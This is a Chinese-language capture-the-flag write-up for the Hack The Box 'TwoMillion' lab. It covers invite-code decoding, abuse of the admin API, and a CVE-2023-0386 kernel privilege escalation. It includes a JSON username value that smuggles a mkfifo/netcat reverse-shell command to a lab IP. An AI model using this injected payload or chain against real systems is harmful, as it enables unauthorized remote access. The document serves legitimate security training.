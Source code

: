 ```yaml
---
title: "HTB-TowMillion"
date: 2024-09-21
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan

![](./images/image-278.png)

开放端口：`22`、`80`

并且注意到80端口上有一个重定向，添加到`/etc/hosts`

![](./images/image-279.png)

## Register

注意到有/login路由，使用简单的密码组合登陆失败，猜测存在/register路由

![](./images/image-280.png)

但是需要先拿到邀请码

我在浏览器的network里面发现了一个独特的js文件

![](./images/image-281.png)

ChatGPT是这样分析的

![](./images/image-282.png)

![](./images/image-283.png)

控制台给出一段加密信息，加密方式是`ROT13`

![](./images/image-284.png)

需要发送一个POST包到指定的路径

![](./images/image-285.png)

将code进行Base64解密得到邀请码

注册完成后成功进入页面

![](./images/image-286.png)

## RCE

经过源代码的检查，发现存在`/api`的路径

![](./images/image-287.png)

```
{
    "v1": {
        "user": {
            "GET": {
                "/api/v1": "Route List",
                "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
                "/api/v1/invite/generate": "Generate invite code",
                "/api/v1/invite/verify": "Verify invite code",
                "/api/v1/user/auth": "Check if user is authenticated",
                "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
                "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
                "/api/v1/user/vpn/download": "Download OVPN file"
            },
            "POST": {
                "/api/v1/user/register": "Register a new user",
                "/api/v1/user/login": "Login with existing user"
            }
        },
        "admin": {
            "GET": {
                "/api/v1/admin/auth": "Check if user is admin"
            },
            "POST": {
                "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
            },
            "PUT": {
                "/api/v1/admin/settings/update": "Update user settings"
            }
        }
    }
}
```

尝试使用`/api/admin`，确实存在

![](./images/image-288.png)

访问`/api/v1/admin/vpn/generate`，有身份验证

![](./images/image-289.png)

在`/api/v1/admin/settings/update`路径中有不同的响应头，因为不允许用GET或者POST方式，于是尝试使用了PUT

![](./images/image-290.png)

其中返回的信息里会提示缺失的参数，补全即可，如图将我的账户设置为了admin

![](./images/image-291.png)

现在我们再来测试admin

![](./images/image-292.png)

尝试去获得admin的vpn

![](./images/image-293.png)

但是呢这里并没有办法进行连接

![](./images/image-295.png)

尝试在这里进行命令执行，发现成功

![](./images/image-296.png)

```
{
	"username":"hyh;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.29 100 >/tmp/f;"
}
```

![](./images/image-297.png)

拿到www-data的shell

上传`linpeas.sh`，发现3306的端口是开放的，可能存在数据库服务

![](./images/image-298.png)

并且发现了数据库的用户名和密码

![](./images/image-299.png)

ssh登录成功！获得user.txt

![](./images/image-300.png)

## Privilege Escalation

我在数据库中发现了其他两个用户的密码

![](./images/image-301.png)

不过都无法爆破成功

在`/var/mail`文件夹下发现了信息

![](./images/image-302.png)

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

意思是似乎这个系统存在某个Linux的内核CVE

![](./images/image-303.png)

### CVE-2023-0386

Github：[xkaneiki/CVE-2023-0386: CVE-2023-0386在ubuntu22.04上的提权 (github.com)](https://github.com/xkaneiki/CVE-2023-0386)

将其远程下载下来

![](./images/image-304.png)

![](./images/image-305.png)

拿到root.txt！

![](./images/image-306.png)

## Summary

这个注册好像是HTB平台之前的一个小彩蛋，需要用户自己在网站的js里找到邀请码才能注册

提权部分给的提示就比较直接了，可以直接在搜索引擎里找到对应的poc
